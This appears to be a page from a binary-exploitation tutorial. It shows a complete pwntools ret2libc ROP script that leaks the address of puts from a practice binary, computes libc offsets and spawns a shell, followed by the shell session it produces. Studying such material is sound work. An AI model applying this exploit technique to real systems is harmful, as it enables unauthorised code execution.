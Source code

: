 \documentclass{article}
\begin{document}
\begin{lstlisting}
#!/usr/bin/python
from pwn import *

PUTS_PLT_ADDRESS = 0x400430
PUTS_GOT_ADDRESS = 0x601018
MAIN_ADDRESS     = 0x400566
PUTS_OFFSET      = 0x06f690
SYSTEM_OFFSET    = 0x045390
BIN_SH_OFFSET    = 0x18cd17

rop = "A" * 40
# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(PUTS_GOT_ADDRESS)
rop += p64(PUTS_PLT_ADDRESS)
rop += p64(MAIN_ADDRESS)

p = process("./make_leak")
p.sendline(rop)
p.readuntil("week.\n")

puts_leak = u64(p.read(6) + "\x00\x00")
log.info("leaked puts address: 0x{:>8x}".format(puts_leak))
libc_base_address = puts_leak - PUTS_OFFSET
system_address    = libc_base_address + SYSTEM_OFFSET
bin_sh_address    = libc_base_address + BIN_SH_OFFSET
log.info("found libc base address: 0x{:>8x}".format(libc_base_address))
log.info("found system address: 0x{:>8x}".format(system_address))
log.info("found \"/bin/sh\" address: 0x{:>8x}".format(bin_sh_address))

rop = "A" * 40
# 0x0000000000400613 : pop rdi ; ret
rop += p64(0x400613) + p64(bin_sh_address)
rop += p64(system_address)

p.sendline(rop) 
p.interactive()
\end{lstlisting}

When the script is run, it does indeed spawn a shell.

\begin{lstlisting}
> ./input_makeLeak.py
[+] Starting local process './makeLeak': pid 22514
[*] leaked puts address: 0xf7636ca0
[*] found libc base address: 0xf75d7000
[*] found system address: 0xf7611da0
[*] found "/bin/sh" address: 0xf77329ab
[*] Switching to interactive mode
Welcome to the No Security Aggregate
Please sign in with your name.
You tricked us last time with that planted pointer...we won't get fooled again.
Please take a seat, we'll be with you at some point this week.
$ whoami
devneal
$
\end{lstlisting}
\section{Exploiting the Heap}

\section{Reverse Engineering}

\section{C++}
\end{document}
